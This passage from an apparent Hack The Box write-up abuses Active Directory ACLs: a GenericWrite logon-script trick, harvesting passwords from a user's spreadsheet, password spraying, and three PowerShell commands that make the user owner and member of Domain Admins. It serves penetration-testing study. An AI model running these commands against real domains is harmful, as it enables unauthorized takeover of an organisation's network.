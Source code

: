 It's time for different approach, let's open google and do more research.  
After researching this topic I found that we can change logonscript for a user with "GenericWrite" privilege.  

```
https://notes.morph3.blog/abusing-active-directory-acls/genericwrite
```
This article explains it.  
Logon script runs everytime a user logs in.  
It's automated by HTB but normally we would wait for a user to log in.   

Due to firewall we can't connect back to our machine, let's stick with enumeration.  

![obraz](https://github.com/user-attachments/assets/2b31fb66-30fc-4a67-9ef7-58c063cce9c1)  

On this screenshot we can see that user Maria has Engines.xls file on the desktop.  
We can copy this file to programdata directory with the same method.  

![obraz](https://github.com/user-attachments/assets/30371752-072b-49d4-98a5-6fda16254755)

Let's check this file:  

![obraz](https://github.com/user-attachments/assets/9198e3dc-0366-49a6-a0b2-d95c53bd9172)  

It contain some passwords, now I'll put those passwords in a file and spray them with nxc:  

![obraz](https://github.com/user-attachments/assets/13a1e350-81d0-499b-92c4-8324004ad961)  



## Elevating Privileges as Maria

Now we can check bloodhound once again.  
We have WriteOwner over "Domain Admins" group, meaning we can easily elevate privileges.  

First we will take ownership of this group:
```
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
```
Then grant Maria full rights:
```
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "maria"
```
Lastly add Maria to the group:
```
Add-ADGroupMember -Identity 'Domain Admins' -Members 'maria'
```

![obraz](https://github.com/user-attachments/assets/1d5a12aa-1de5-4929-9180-eb4f671b05b7)  

For it to take changes we have to exit evil-winrm and connect again.  
Lastly we will retrieve the root flag.  

![obraz](https://github.com/user-attachments/assets/cbd67214-a04f-4e14-9504-803c9a450b0d)
